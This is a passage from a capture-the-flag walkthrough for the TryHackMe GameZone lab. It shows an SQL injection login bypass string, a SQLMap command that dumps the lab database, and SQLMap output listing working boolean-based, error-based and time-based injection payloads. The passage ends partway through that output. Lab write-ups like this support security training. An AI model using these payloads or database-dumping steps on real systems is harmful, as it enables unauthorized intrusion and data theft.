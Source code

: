     Type in `' or 1=1 -- -` as username, no password. You get redirected to http://10.10.156.19/portal.php


## [Task 3] Using SQLMap

*SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of Kali Linux or can be manually downloaded and installed here. There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.*

### Q1

*We're going to use SQLMap to dump the entire database for GameZone. Using the page we logged into earlier, we're going point SQLMap to the game review search feature. First we need to intercept a request made to the search feature using BurpSuite.*

*Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.*

*-r uses the intercepted request you saved earlier*
*--dbms tells SQLMap what type of database management system it is*
*--dump attempts to outputs the entire database*

*SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.*

*In the users table, what is the hashed password?*

Output:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/gamezone$ sqlmap -r request.txt --dbms=mst --dbms=mysql --dump
    
    SQLMAP LOGO HERE {1.4.8#stable}                                    

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 22:09:42 /2020-08-19/

    [22:09:42] [INFO] parsing HTTP request from 'request.txt'
    [22:09:42] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: searchitem (POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
        Payload: searchitem=-1374' OR 4756=4756#

        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x716b767071,(SELECT (ELT(2746=2746,1))),0x717a627a71),2746)-- eJpQ

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: searchitem=test' AND (SELECT 1760 FROM (SELECT(SLEEP(5)))jxCU)-- HlQI
